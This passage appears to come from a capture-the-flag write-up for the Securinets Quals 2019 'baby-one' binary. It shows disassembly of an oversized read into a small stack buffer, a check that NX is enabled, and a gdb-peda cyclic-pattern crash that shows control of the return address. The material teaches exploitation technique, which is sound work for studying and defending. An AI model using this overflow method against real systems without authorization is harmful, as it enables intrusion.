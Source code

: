 ```text
|           0x00400639      ba2c010000     mov edx, 0x12c              ; 300
|           0x0040063e      4889c6         mov rsi, rax
|           0x00400641      bf00000000     mov edi, 0
|           0x00400646      b800000000     mov eax, 0
|           0x0040064b      e870feffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x00400650      4831d2         xor rdx, rdx
|           0x00400653      90             nop
|           0x00400654      c9             leave
\           0x00400655      c3             ret
```

In disassembly you can see that the the `read` call tries to read `300` bytes into the buffer of size `0x30`. With additional checks you can see that there's no place for simple shellcoding as `NX` bit is set, so no execution on the stack. 

```text
[0x00400500]> i~nx
nx       true
```

We can check if it's possible to overwrite the place on the stack where `rsp` register points to - which after `ret` instruction will be popped into the `rip` register allowing us to control the execution. 

```text
gdb-peda$ pattern_create 300 input
Writing pattern of 300 chars to filename "input"
gdb-peda$ r < input
Starting program: /home/w3ndige/Development/ctf-solutions/securinets-quals-2019/baby-one/baby1 < input
Welcome to securinets Quals!

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x12c 
RBX: 0x0 
RCX: 0x7ffff7eba775 (<read+21>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x7fffffffe450 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
RDI: 0x0 
RBP: 0x4147414131414162 ('bAA1AAGA')
RSP: 0x7fffffffe488 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G"...)
RIP: 0x400655 (<main+95>:	ret)
R8 : 0x7ffff7f8e720 --> 0x0 
R9 : 0x7ffff7f93500 (0x00007ffff7f93500)
R10: 0x7ffff7ff0380 (<strcmp+3200>:	pxor   xmm0,xmm0)
R11: 0x246 
R12: 0x400500 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe560 ("%IA%eA%4A%JA%fA%5A%KA%gA%6A%\377\177")
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400650 <main+90>:	xor    rdx,rdx
   0x400653 <main+93>:	nop
   0x400654 <main+94>:	leave  
=> 0x400655 <main+95>:	ret    
   0x400656:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x400660 <__libc_csu_init>:	push   r15
```